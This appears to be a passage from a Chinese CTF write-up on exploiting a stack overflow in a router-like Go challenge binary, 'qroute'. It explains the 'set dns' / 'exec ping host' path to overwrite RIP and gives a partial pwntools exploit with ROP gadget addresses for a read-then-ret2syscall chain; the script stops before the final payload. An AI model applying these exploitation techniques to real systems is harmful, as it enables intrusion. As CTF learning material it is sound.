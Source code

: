 根据判断 `main__ptr_Router_ping` 函数逻辑发现，要想进入上图此处，必须输入指令 `set dns <域名> <IP>` 后，再 `exec ping host <域名>`，这样域名就会被切割放入 SOF_Point1 变量中，覆盖 RIP 返回地址后成功导致栈溢出.

vmmap 查看了下各段权限，发现根本不好打 ret2shellcode. 后续直接先调用 read 函数写入 ret2syscall 的 rop 链后，直接 ret2syscall 即可. 细节于 EXP 中展示

附：[Linux X86架构 32/64位 系统调用表](https://blog.csdn.net/Nashi_Ko/article/details/120288385)

### [](#header-3)EXP

```py
# by leeya_bug

from ast import literal_eval
from pwn import *
import time
import os
import base64

SLEEP_TIME = 0.2

context.os = 'linux'
#context.log_level = "debug"
x64_32 = True
context.arch = 'amd64' if x64_32 else 'i386'

p = process('./debug/qroute')
#libc = ELF('/home/leeya_bug/桌面/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')

def debug(interact = True, query = ''):
	subprocess.Popen(["qterminal", "-e", f'''bash -c 'pwndbg -ex "set telescope-skip-repeating-val off" -p {p.pid} -ex "{query}" ' '''])
	if interact: p.interactive()
	
def original_debug(interact = True):
	gdb.attach(p)
	if interact: p.interactive()

u64_ = lambda a: u64(a.ljust(8,b'\x00'))

# ------------- 基本配置 -------------

def exec_cmd(cmd: bytes) -> None:
	p.sendlineafter(b'#', cmd)

g_syscall    = 0x0000000000471CD1
g_pop_rax    = 0x000000000042cfae    # before rbx
g_pop_rbx    = 0x0000000000461dc1    #
g_pop_rcx    = 0x0000000000433347    # before ax, bx
g_pop_rbp    = 0x0000000000401030    #

g_pop_rdi    = 0x00000000004c23dd
g_pop_rdx    = 0x00000000004a55a5
sh           = 0x000000000055171d
syscall_read = 0x000000000048DB60
free_stack   = 0x000000c000000000 + 0x300000
leave_ret    = 0x00000000004a721a

gadget1 = b''
gadget1 += p64(g_pop_rbp) + p64(free_stack)
gadget1 += p64(g_pop_rcx) + p64(0x200)       # before ax, bx
gadget1 += p64(g_pop_rbx) + p64(free_stack)
gadget1 += p64(syscall_read)
gadget1 += p64(leave_ret)[:-2]

```